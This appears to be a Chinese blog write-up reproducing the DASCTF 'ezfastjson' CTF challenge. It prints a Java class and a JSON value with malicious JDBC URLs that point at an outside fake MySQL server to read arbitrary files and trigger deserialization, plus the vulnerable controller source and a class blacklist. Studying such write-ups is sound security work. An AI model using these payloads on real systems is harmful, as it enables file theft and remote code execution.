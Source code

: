 ```yaml
---
layout: post
title: DASCTF ezfastjson赛题复现
categories: [blog ]
tags: [Java,]
description: ""
image:
  feature: windows.jpg
  credit: JYcxk
  creditlink: shzi
---
```








## 自己当时做题的思考

这道题和之前的那个柏鹭杯的那道题好相似，页面都是一样的。

![image-20231125103229032](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231125103229032.png)

奇怪的是它的响应包并没有任何服务器的信息？

![image-20231125105729022](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231125105729022.png)

考虑 Mysql connector RCE,但是这种方法是连接到恶意的mysql服务器，可是这道题的mysql服务器是题目给的（不可控）

猜测它后面的源码是，直接把输入的东西进行一个拼接



先构造一个恶意的服务器的恶意连接（）

![image-20231125115728882](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231125115728882.png)

并且传入值也是可以任意修改的而且是json模式解析，结合题目是ezfastjson

![image-20231125115948115](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231125115948115.png)

在本地构造直接反序列化起码会连接上恶意的服务器，但是到了题目一点响应都没有

![image-20231125122613470](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231125122613470.png)

直接打urldns发现是出网的，啊啊啊？？？（看一下题解，已经一解了）

莫非直接打链子？？？

![image-20231125124730407](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231125124730407.png)

盲打jdbc没打通，其实我感觉jar包中肯定没有其他的第三方库依赖，继续打一下jndi

![image-20231125132301834](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231125132301834.png)



## 赛后复现

只打通了urldns，以为这道题是一个黑盒题目，学长直接拿黑盒打的，用urldns探测依赖

然后发现是一个mysql任意文件读取的漏洞，上一篇文章已经详细介绍了

本地用的MySQL_Fake_Server-master这个项目直接启动，server.py

```java
import java.sql.Connection;
import java.sql.DriverManager;
    public class payload {
        public static void main(String[] args) throws Exception {
            String driver = "com.mysql.cj.jdbc.Driver";
            String DB_URL = "jdbc:mysql://8.130.116.247:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true";
                DB_URL="jdbc:mysql://8.130.116.247:3307?useSSL=true&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=fileread_C:\\Users\\c'x'k\\Desktop\\MySQL_Fake_Server-master\\ysoserial-0.0.6-SNAPSHOT-all.jar";

            String username = "root";
            String password = "200377";

            Class.forName(driver);

            Connection conn = DriverManager.getConnection(DB_URL);

        }
    }
```

因为题目用的json传输

```java
{"host":"8.130.116.247:3307/test?user=fileread_file:///&ALLOWLOADLOCALINFILE=true&maxAllowedPacket=655360&allowUrlInLocalInfile=true#"}
```

读取根目录的文件，在服务器开启监听

![image-20231128163121058](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231128163121058.png)

![image-20231128163152864](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231128163152864.png)

![image-20231128163225474](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231128163225474.png)

![image-20231128163405972](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231128163405972.png)

app/ezfastjson-0.0.1-SNAPSHOT.jar直接读取这个

![image-20231128163628867](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231128163628867.png)

### 开始分析

```java
fastjson 1.2.43
groovy-3.0.19
mysql-connector-java-8.0.1
snakeyaml-1.30
```

groovy这个依赖没见过。

啊fastjsonhttps://github.com/safe6Sec/Fastjson，这个探测依赖版本也不靠谱呀，题目是1.2.43的

![image-20231128165326167](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231128165326167.png)

果然是直接将传入的json对象，直接进行JSON的反序列化

传入urldns链子的时候是，parseObject进行反序列化

传入host的时候是进行jdbc的连接（这一块的代码没想到，但也应该想到的）

```java
public class TestMySQLConnectionController {
    @RequestMapping({"/testMySQLConnection"})
    public String showTestMySQLConnectionPage() {
        return "testMySQLConnection";
    }

    @PostMapping({"/testMySQLConnection"})
    @ResponseBody
    public String testMySQLConnection(@RequestBody String jsonData, Model model) {//jsonData就是我们post传的参数
        try {
            JSONObject json = JSONObject.parseObject(jsonData);
            if (jsonData.contains("@") || jsonData.contains("\\x") || jsonData.contains("\\u")) {
                //这里禁用，是为了防止绕过但呃呃呃，不应该在前面禁用嘛，毕竟到这里已经反序列化成功了唉
                return "出错了";
            }
            String host = json.getString("host");
            String port = json.getString("port");
            String database = json.getString("database");
            String username = json.getString("username");
            String password = json.getString("password");
            System.out.println(host);
            String url = "jdbc:mysql://" + host + ":" + port + "/" + database + "?user=" + username + "&password=" + password; 
            //
            System.out.println(url);
            Class.forName("com.mysql.cj.jdbc.Driver");
            Connection connection = DriverManager.getConnection(url);
            model.addAttribute("message", "MySQL数据库连接成功！");
            connection.close();
            return "testMySQLConnection";
        } catch (ClassNotFoundException | SQLException e) {
            model.addAttribute("message", "MySQL数据库连接失败，请检查连接信息。");
            e.printStackTrace();
            return "testMySQLConnection";
        }
    }

    @PostMapping({"/readObj"})
    @ResponseBody
    public String deserializeData(@RequestParam String base64Data) {
        try {
            new MyObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64Data))).readObject();//这才是真正的反序列化的点
            return "ok";
        } catch (Exception var4) {
            return var4.getMessage();
        }
    }
}
```

```java
    private static final String[] blackList = {"AbstractTranslet", "javax.management", "JSONObject", "bad", "hot", "hash", "java.security", "jackson"};
```

### 非预期：这道题目前已经转换为了fastjson 1.2.43反序列化漏洞

看官方wp说没有bash，怪不得学长反弹shell没成功，即使我打到这应该也蒙蔽

```java
Thread.sleep()
```

按理说我本地应该通的呀。。。

![image-20231128210814332](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231128210814332.png)

用这个软件就能一把梭，但是参数只能设置Runtime命令执行里面的，我本想搞一个Thread.sleep这样成不成功就能看出来，反编译工具，看不懂。。。

![image-20231128211807822](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231128211807822.png)

```java
{"AbstractTranslet", "javax.management", "JSONObject", "bad", "hot", "hash", "java.security", "jackson"};
```


